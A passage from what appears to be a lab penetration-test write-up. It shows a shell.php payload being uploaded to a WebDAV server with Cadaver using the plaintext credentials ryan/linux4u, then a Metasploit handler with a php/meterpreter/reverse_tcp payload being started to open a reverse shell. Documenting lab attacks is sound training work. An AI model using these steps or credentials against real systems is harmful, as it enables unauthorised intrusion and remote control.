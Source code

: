 Time to go back to WebDav server. Once again Cadaver was used to access the server and upload the shell.php payload. This will be done using username ryan and password linux4u just as done before.

Command:

`open http://192.168.1.105/webdav`

`Username: ryan`

`Password: linux4u`

`put /root/shell.php`

`ls`

Result:

shell.php was uploaded to to the WebDav server

![shell.php uploaded to WebDav](/Images/shell-upload-webdav.png "shell.php uploaded to WebDav")

This could have been done via the File Manager as well. Shell.php could have been dragged and dropped into WebDav in the file/folder GUI.

### Execute payload that you uploaded to the site to open up a meterpreter session.
Time to use Metasploit to create a meterperter session and run the shell.php.

Commands:

`msfconsole`

`use exploit/multi/handler`

`set LHOST 192.168.1.90`

`set LPORT 4444`

`set PAYLOAD php/meterpreter/reverse_tcp`

`run`

![Meterperter session creation](/Images/meterpreter-session.png "Meterperter session creation")
